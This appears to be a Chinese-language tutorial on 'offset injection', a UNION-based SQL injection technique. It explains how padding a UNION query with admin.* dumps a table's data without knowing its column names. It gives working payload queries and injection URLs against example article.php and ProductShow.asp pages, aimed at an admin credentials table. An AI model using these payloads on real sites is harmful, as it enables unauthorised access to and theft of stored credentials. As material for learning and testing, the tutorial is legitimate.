




## 1、简介

这种注入方式合适在找到表找不到字段的情况下使用。
这种注入方式 需要联合两个表 所以这种注入也是联合查询注入的一种。

## 2、原理

在SQL中查询 select * from admin 星号代表所有字段。

而且 select * from admin 的结果等于下面几种结果

```sql
select admin.* from admin
select admin.id,admin.username,admin.password from admin
select id,username,password from admin
```

在使用位移注入这种注入方法，需要确定当前表的，字段数

表article 的字段为3个

使用联合语句 把另外一个表联合进来查询

```sql
select * from article where id=1 union select 1,2,3 from admin
```

admin的表的字段数同样也是3个 把admin.* 替换1,2,3 

```sql
select * from article where id=1 union select admin.* from admin
```

语句并没有报错 因为列数一样 同样也会显示表admin里面的字段数据

把语句改成这样就会只显示 表 admin的数据 

```sql
select * from article where id=-1 union select admin.* from admin
```

 

注意：
使用这种方法
当前表的字段大于或等于联合的表
这里当前表就是 article 联合的表就是 admin

## 3、网站测试

```http
http://target_sys.com/article.php?id=-1 union select admin.* from admin
```

 

### 4、其他数据库

在其他数据库中也可以使用这种方法，例如access

order by的字段数

```sql
select * from product where id=100 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26 from admin
```

product 的表字段数为26 

```sql
select * from product where id=100 union select 1,2,3,4,5,6,7,8,9,10,11,12,* from admin
```

这里的*星号代表admin的字段数 所以用26-13=13 所以admin的字段个数为13

用admin.*替换这里的 * 星号

```sql
select * from product where id=100 union select 1,2,3,4,5,6,7,8,9,10,11,12,admin.* from admin
```

在网站里面测试

```http
http://127.0.0.1:99/ProductShow.asp?ID=100 union select 1,2,3,4,5,6,7,8,9,10,11,12,admin.* from admin
```

 

这样同样也是可以执行语句 获取数据，也可以将admin.*放到其他列 

```sql
select * from product where id=100 union select admin.*,2,3,4,5,6,7,8,9,10,11,12,13 from admin
```

```http
http://127.0.0.1:99/ProductShow.asp?ID=100 union select admin.*,2,3,4,5,6,7,8,9,10,11,12,13 from admin
```

 

同样也是可以执行的。

同样星号也可以放在其他位置

```sql
select * from product where id=100 union select *,2,3,4,5,6,7,8,9,10,11,12,13 from admin
select * from product where id=100 union select admin.*,2,3,4,5,6,7,8,9,10,11,12,13 from admin
```

 表名.* 和* 这种同样的可以也是表示字段数 他两种结果是不一样 的。